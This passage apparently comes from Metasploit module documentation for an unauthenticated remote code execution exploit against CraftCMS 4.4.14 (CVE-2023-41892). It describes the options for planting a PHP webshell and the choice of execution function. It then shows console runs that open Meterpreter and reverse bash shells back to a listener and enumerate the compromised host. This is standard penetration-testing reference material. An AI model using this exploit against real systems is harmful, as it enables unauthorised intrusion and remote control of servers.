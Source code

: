 ```shell

View the full module info with the info -d command.
```

## Options
### WEBSHELL
You can use this option to set the filename of the webshell with extension `.php`, otherwise the name will be randomly generated.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios
### CraftCMS 4.4.14 on MacOS PHP - php/meterpreter/reverse_tcp
```shell
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.25
[+] Deleted /var/www/html/web/CDfbvAnrZMH.php
[+] Deleted /tmp/php5M63PK
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.25:51044) at 2023-12-17 12:31:55 +0000

meterpreter > sysinfo
Computer    : craftcms-vuln-web
OS          : Linux craftcms-vuln-web 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### CraftCMS 4.4.14 on MacOS Unix Command - cmd/unix/reverse_bash
```shell
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set target 1
target => 1
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted /var/www/html/web/XGCuZFdoia.php
[+] Deleted /tmp/phpakTlmu
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.25:51101) at 2023-12-17 12:34:34 +0000

uname -a
```